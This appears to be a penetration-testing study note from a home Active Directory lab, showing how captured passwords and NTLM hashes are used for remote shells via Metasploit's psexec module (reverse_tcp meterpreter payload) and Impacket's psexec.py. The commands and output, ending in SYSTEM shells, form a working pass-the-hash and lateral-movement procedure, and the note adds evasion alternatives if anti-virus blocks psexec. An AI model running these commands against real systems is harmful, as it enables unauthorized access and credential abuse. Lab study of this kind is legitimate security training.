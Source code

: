 
Once we have [[SMB Relay|captured some hashes]] and [[LLMNR Poisoning|cracked some passwords]] using different attacks, we can utilise them to gain shell access on a machine.

### Metasploit

We can use the `psexec` module available in metasploit to gain a shell as follow.

```bash
msf6 > use exploit/windows/smb/psexec
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

This will default to use the payload `windows/x64/meterpreter/reverse_tcp`. However, since we are attacking a `x64` machine, we will have to configure the correct payload.

```bash
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.23.133   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Now we need to set the following options: `RHOSTS`, `SMBDomain`, `SMBUser`, `SMBPass` (obtained [[LLMNR Poisoning#^437ee9|here]])

```bash
msf6 exploit(windows/smb/psexec) > set RHOST 192.168.23.131
RHOST => 192.168.23.131
msf6 exploit(windows/smb/psexec) > set SMBDomain MARVEL.local
SMBDomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

We can check out targets from `show targets`. In some cases the *Automatic* option might fail. In those cases, either pick *PowerShell* or *Native upload*

```bash
msf6 exploit(windows/smb/psexec) > show targets 

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

#### Attacking NTLM local user

We can use the hashes from the [[SMB Relay#^c05678|SAM dump]] we extracted through the [[SMB Relay]] attack. Since we are not attacking a user in a domain, we can unset it as well.

```bash
msf6 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf6 exploit(windows/smb/psexec) > unset SMBDomain 
Unsetting SMBDomain...
```

If we look at the hashes we dumped, there are two parts. The **LM** part and the *NT* part.

Administrator:500:**aad3b435b51404eeaad3b435b51404ee**:*7facdc498ed1680c4fd1448319a8c04f*:::

We can set the SMBPass as the combined NTLM hash and run the exploit.

```bash
msf6 exploit(windows/smb/psexec) > set SMBPASS aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
SMBPASS => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.23.133:4444 
[*] 192.168.23.131:445 - Connecting to the server...
[*] 192.168.23.131:445 - Authenticating to 192.168.23.131:445 as user 'administrator'...
[*] 192.168.23.131:445 - Selecting PowerShell target
[*] 192.168.23.131:445 - Executing the payload...
[*] Sending stage (177734 bytes) to 192.168.23.131
[+] 192.168.23.131:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 6 opened (192.168.23.133:4444 -> 192.168.23.131:65011) at 2025-03-04 16:21:58 +1100
```

Even though this hash was dumped from the user `pparker`, since `fcastle` also has the same password the resulting hashes will be the same. Hence, the attack succeeds on `fcastle`.

### psexec.py

We can do this manually instead of using Metasploit by running the script `psexec.py`.

```bash
$ python psexec.py MARVEL/fcastle:'Password1'@192.168.23.131
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.23.131.....
[*] Found writable share ADMIN$
[*] Uploading file TEpiyToQ.exe
[*] Opening SVCManager on 192.168.23.131.....
[*] Creating service UObv on 192.168.23.131.....
[*] Starting service UObv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


We can do the same with a hash as well.

```bash
$ python psexec.py administrator@192.168.23.131 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.23.131.....
[*] Found writable share ADMIN$
[*] Uploading file bGhyEGQv.exe
[*] Opening SVCManager on 192.168.23.131.....
[*] Creating service dBmV on 192.168.23.131.....
[*] Starting service dBmV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

If `psexec` is not working for some reason such as an anti-virus detection, there are two other identical options that can be used: `wmiexec.py` and `smbexec.py`.

